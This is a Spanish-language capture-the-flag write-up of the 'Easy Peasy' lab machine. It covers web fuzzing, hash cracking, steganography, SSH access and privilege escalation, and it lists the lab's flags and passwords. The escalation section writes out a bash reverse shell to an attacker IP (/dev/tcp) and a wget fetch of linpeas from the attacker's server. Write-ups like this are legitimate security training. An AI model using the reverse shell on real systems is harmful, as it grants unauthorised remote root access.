# Easy Peasy

## Nmap



## Puertos abiertos



## Web

Puerto 80



Robots.txt



Versión nginx



Puerto 65524

## Fuzzing

    gobuster dir -u http://10.10.44.195/ -w Desktop/common.txt -x php 













    flag{f1rs7_fl4g}



Para crackear el hash lo introducimos en la siguiente web [md5hashing](https://md5hashing.net/hash/md5)

    flag{1m_s3c0nd_fl4g}



Encontramos la tercera flag en la mísma web de apache



Encontramos un codigo cifrado en base62, hace referencia a la ruta escondida ``/n0th1ng3ls3m4tt3r``





En el código fuente encontramos un hash



Usamos ``hash-identifier``, para ver posibles cifrados



Use los posibles cifrados pero no lo encontré, por lo que use john y el diccionario de contraseñas ``easypeasy.txt``





    mypasswordforthatjob

Descargamos la imagen de la web, comprobamos si tiene algun texto escondido

    steghide extract -sf binarycodepixabay.jpg 

Nos pide una contraseña, usamos la que acabamos de conseguir





	iconvertedmypasswordtobinary

## SSH

    ssh -p 6498 boring@10.10.254.187



Encontramos un ``user.txt`` con la flag ¿rotada?



Usamos [rot13](https://rot13.com/)

    flag{n0wits33msn0rm4l}



## Escalada de privilegios

Iniciamos un servidor para subir ``linpeas``

    python3 -m http.server 1234



Lo descargamos en la máquina atacada

    wget 10.8.67.209:1234/linpeas.sh



Lo ejecutamos

    chmod +x linpeas.sh

    ./linpeas.sh



Creamos una shell en el archivo

    bash -i >& /dev/tcp/10.8.67.209/8080 0>&1



Ponemos el puerto en escucha, ya tendremos acceso ``root``



Buscamos ``root.txt``

